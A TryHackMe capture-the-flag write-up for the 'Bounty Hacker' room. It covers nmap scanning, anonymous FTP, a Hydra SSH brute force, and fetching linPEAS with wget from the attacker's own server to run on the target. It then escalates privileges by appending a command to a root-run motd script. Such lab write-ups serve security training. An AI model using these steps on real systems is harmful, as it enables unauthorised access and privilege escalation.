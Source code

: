 ```yaml
---
title: Bounty Hacker
date: 2020-08-05
tags: ['TryHackMe', 'Writeup', 'Cybersecurity', 'Linux']
---
```


<div style="text-align:center">
    <img src="/images/bounty-hacker-writeup/cover.webp" />
</div>

## Description:

 You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

Disclaimer: This writeup is for a room located on TryHackMe. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Task 1

Deploy the machine by clicking the Deploy button.

## Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use OpenVPN):

```bash
nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

21 | ftp
22 | ssh
80 | http

## Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```bash
ftp <Machine_IP>
```

To log into the ftp server, we will be using the anonymous username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the dir directory. We notice there's a text file called task.txt. We can view this file directly in the ftp terminal using the following command:

```bash
get task.txt -
```

We now have our username!

After finding this task.txt file, we will notice there is another file called locks.txt, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```bash
get locks.txt
```

## Task 4

Hint: What is on port 22?

This task is just looking for the service running on port 22 (Check nmap scan output).

## Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that locks.txt file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```bash
hydra -t 4 -V -l User -P /usr/share/wordlists/locks.txt ssh://<Machine_IP>
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

## Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```bash
ssh user@<Machine_IP>
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```bash
sudo -l
```

After we run a simple command to see the available items in the directory, we see the user.txt file, which has our first flag!

Commands:

```bash
ls

cat user.txt
```

## Task 7

All that's left is to find the root.txt and complete the CTF!

The easiest way to accomplish this is by using linPEAS and a python server, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```bash
sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```bash
mkdir LinEnum

cd LinEnum

wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the Private IP is available [here](https://tryhackme.com/my-machine).

```bash
wget "http://<Private_IP>/linpeas.sh"
```

To make our linPEAS script executable, we simply do this command (Notice the color change when we run this command):

```bash
chmod +x linpeas.sh
```

Time to run the script!

```bash
./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called /etc/update-motd.d/00-header (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```bash
cd /etc/update-motd.d

ls -la
```

This will show us that the 00-header file we found is actually owned by root.

```bash
nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through ssh, we will see the root.txt!

For this, we just need to add the following command at the very bottom of the open file:

```bash
cat /root/root.txt
```

ctrl + x to save the file

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the root.txt flag is located directly in the login terminal screen!

```bash
ssh user@<Machine_IP>
```

Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

## Extra

This room is based on an anime called Cowboy Bebop (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).